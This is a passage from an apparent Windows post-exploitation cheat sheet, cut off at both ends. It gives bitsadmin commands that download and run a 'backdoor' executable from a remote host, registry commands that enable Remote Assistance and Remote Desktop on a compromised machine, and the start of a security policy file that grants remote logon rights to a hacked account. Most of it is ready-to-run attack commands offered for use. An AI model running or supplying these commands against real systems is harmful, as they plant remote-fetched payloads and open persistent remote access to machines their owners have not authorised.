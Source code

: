 or download the file in another way:

```
bitsadmin /transfer backdoor /download /priority high http://192.168.20.10/theshell.exe %TEMP%\test.exe
```

Check the backdoor is set up correctly:
```
bitsadmin /getnotifycmdline backdoor
bitsadmin /listfiles backdoor
```

Run the backdoor:
```
bitsadmin /RESUME backdoor
```

### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.


    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>
